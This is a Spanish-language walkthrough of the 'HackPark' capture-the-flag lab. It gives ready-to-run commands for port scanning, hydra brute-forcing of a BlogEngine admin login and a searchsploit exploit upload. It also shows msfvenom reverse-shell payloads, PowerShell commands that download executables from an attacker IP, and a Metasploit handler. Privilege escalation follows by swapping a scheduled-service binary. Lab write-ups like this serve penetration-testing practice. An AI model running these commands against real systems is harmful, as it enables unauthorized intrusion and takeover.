





# HackPark

## Scanning

```bash
sudo nmap -sS -p- --min-rate 5000 -vvv --open -Pn -n 10.10.65.121 -oG allports
nmap -sC -sV -p 80,3389 -Pn -n 10.10.65.121 -oN targeted
```



## 80

Existe una pagina en /Account/login.aspx?ReturnURL=/admin/



Usaremos hydra para sacar la contraseña, se probará con el usuario admin que es el usuario por defecto en blogengine

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt -V 10.10.65.121 http-post-form '/Account/login.aspx?ReturnURL=/admin/:__VIEWSTATE=96wqtyMMw%2ByGDvAbjpbjmZZ%2B3iTEcRk8bDEDhs%2BgLBvn50kWyqruNVQipjhdHpq0gQqlakvET2xXrV27q6dWHOqmdRmcJyfa010SwCcc6QWAcEkZTgCQzSTY%2Fvye2ET7OgmqFOVsG8qNN3HW%2FKXBJ6Ut8iQeffwVFhK0TXeg2eSX10SD7eKDNvkF7XbDNlUTMBI7u5tmZKPiGu44%2Bscq3otARP7CMNZL%2BY7ao2pYf0D4wJlQVVHNEsmbB%2Bcgy66WvkxEGrpCLES8fntQbgFjOC%2FjpiJ7zSxe5iwndEtxGpotFSbEnfvm55y6s%2BHBfGejw61dHikt4x4ZvRlo%2BgPemEz6avsNWhKAzvY8C5AC4fIFNxtE&__EVENTVALIDATION=NcoGunaTvYWBEZN5DLfjY0ZE1Sd0Aq0oCfFBnbycegHEk3BUrMbLyKVzUoK9kqVjVyVdjQTSX6cEeoXIAU%2FNNxh6Y8dCypO7DoAxpjIkPoOhO5kpEez56r0fE6RbuzyKtsl0IV2R9DtqgEnrW2TnR0XmHODZ2g2tyvhlZvxtxXQlpDcb&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Iniciar+sesi%C3%B3n:Login failed'
```



## Searchsploit

```bash
# Buscamos la vulnerabilidad en searchsploit
searchsploit blogengine 3.3.6
# Lo descargamos
searchsploit -m aspx/webapps/46353.cs
```

El exploit nos indica que debemos modificar el archivo indicando nuestra IP y puerto al cual se va a conectar, ademas renombrar el archivo con el nombre de `PostView.ascx` 



Entramos a el siguiente enlace  con la ip del sitio web http://10.10.10.10/admin/app/editor/editpost.cshtml y usamos el *"file manager"* para agregar archivos y subimos nuestro archivo PostView.ascx|. Finalmente debemos estar escuchando con netcat con el puerto indicado en el archivo e ingresar a  http://10.10.10.10/?theme=../../App_Data/files para que se arrancar el epxloit.



## Cambiar a una shell de meterpreter

```bash
# Crear la shell de meterpreter
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.13.13.243 LPORT=5555 -f exe -o meterpreter_shell.exe
```

Descargarlo desde la pc atacante

```bash
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.13.13.243:80/meterpreter_shell.exe','meterpreter_shell.exe')"
```

En la consola de metasploit escuchamos

```bash
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp 
set LHOST your-ip
set LPORT listening-port
run
```

Ejecutamos la conexion

```cmd
.\meterpreter_shell.exe
```

## Escalar privilegios con el servicio Message.exe en C:\Program Files(x86)\SystemScheduler\Message.exe

Creamos una reverse shell de nombre Message.exe así como hicimos antes

```bash
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.13.13.243 LPORT=5432 -f exe -o Message.exe
```

y lo descargamos en `C:\Program Files(x86)\SystemScheduler\Message.exe`

```bash
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.13.13.243:80/Message.exe','Message.exe')"
```

Despues de unos segundos se tendrá la conexion en meterpreter y podemos usar cmd para que nos muestre el promt y ya estaríamos como Administrator a pesar de que cuando intento usar whoami no me responde. u.u

## Sin usar meterpreter

Nos quedamos con la reverse shell usando netcat. Esta vez nos pasaremos a otra shell usando el comando:

```bash
msfvenom -p windows/shell_reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.13.13.243 LPORT=5555 -f exe -o windows_shell.exe
```

Escuchamos con netcat usando `nc -lvp 5555`

Descargamos la reverse shell antes generado con:

```cmd
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.13.13.243:80/windows_shell.exe','windows_shell.exe')"
.\windows_shell.exe
```

## winpeas para analizar la maquina

usaremos este enlace https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/winPEAS/winPEASbat/winPEAS.bat y lo descargamos en la maquina con 

```cmd
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.13.13.243:80/winPEAS.batx86','winPEASx86.bat')"
.\winPEAS.bat
```

to be continue...
